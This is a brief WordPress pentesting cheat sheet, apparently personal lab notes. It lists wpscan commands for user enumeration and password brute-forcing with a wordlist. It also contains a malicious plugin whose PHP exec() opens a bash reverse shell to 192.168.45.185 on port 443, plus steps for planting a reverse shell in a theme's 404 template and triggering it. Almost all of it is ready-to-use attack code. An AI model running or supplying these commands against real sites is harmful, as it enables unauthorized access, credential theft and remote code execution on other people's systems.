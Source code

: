 ### Enum
```
sudo wpscan --url url -e
sudo wpscan --url url --usernames admin --passwords rockyou.txt
```


### Upload Plugin to RCE
```
<?php
/**
* Author: Saeed Bala
* Plugin Name: PHP Code Plugin
* Description: Shell Through Plugins
* Version: 1.0
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.185/443 0>&1'");
?>

zip -r plug.zip index.php
```
### Update Theme File to RCE 
```
1. Location: Backend -> Theme Editor -> Theme Files -> 404 Template
2. Replace with your rev php shell
3.Access the 404 Template
http://192.168.199.55/shenzi/404.php
```
